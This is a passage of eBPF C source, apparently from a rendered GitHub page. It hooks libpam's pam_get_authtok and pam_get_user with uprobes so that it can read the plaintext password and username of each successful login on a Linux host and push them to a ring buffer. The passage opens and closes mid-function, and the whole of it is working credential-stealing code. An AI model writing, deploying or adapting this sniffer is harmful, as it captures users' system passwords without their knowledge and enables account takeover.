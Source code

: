 ```c
    return 0;
}

SEC("uretprobe//lib/x86_64-linux-gnu/libpam.so.0:pam_get_authtok")
int BPF_URETPROBE(pam_get_authtok_exit)
{
    pid_t pid = bpf_get_current_pid_tgid() >> 32;
    int ret = PT_REGS_RC(ctx);

    __u64 *stored = bpf_map_lookup_elem(&authtok_ptrs, &pid);
    if (!stored)
        return 0;
    bpf_map_delete_elem(&authtok_ptrs, &pid);
    if (ret != 0)
        return 0;

    __u64 atok_addr = 0;
    bpf_probe_read_user(&atok_addr, sizeof(atok_addr), (const void *)(*stored));
    if (!atok_addr)
        return 0;

    struct event *evt = bpf_ringbuf_reserve(&events, sizeof(struct event), 0);
    if (!evt)
        return 0;
    evt->pid = pid;
    bpf_get_current_comm(&evt->comm, sizeof(evt->comm));
    bpf_probe_read_user(evt->password, sizeof(evt->password), (const void *)atok_addr);
    bpf_ringbuf_submit(evt, 0);
    return 0;
}

SEC("uprobe//lib/x86_64-linux-gnu/libpam.so.0:pam_get_user")
int BPF_UPROBE(pam_get_user_enter,
               void *pamh,
               const char **user,
               const char *prompt)
{
    pid_t pid = bpf_get_current_pid_tgid() >> 32;
    __u64 user_ptr = (unsigned long)user;
    bpf_map_update_elem(&user_ptrs, &pid, &user_ptr, BPF_ANY);
    return 0;
}

SEC("uretprobe//lib/x86_64-linux-gnu/libpam.so.0:pam_get_user")
int BPF_URETPROBE(pam_get_user_exit)
{
    pid_t pid = bpf_get_current_pid_tgid() >> 32;
    int ret = PT_REGS_RC(ctx);

    __u64 *stored = bpf_map_lookup_elem(&user_ptrs, &pid);
    if (!stored)
        return 0;
    bpf_map_delete_elem(&user_ptrs, &pid);
    if (ret != 0)
        return 0;

    __u64 user_addr = 0;
    bpf_probe_read_user(&user_addr, sizeof(user_addr), (const void *)(*stored));
    if (!user_addr)
        return 0;
        
    struct event *evt = bpf_ringbuf_reserve(&events, sizeof(struct event), 0);
    if (!evt)
```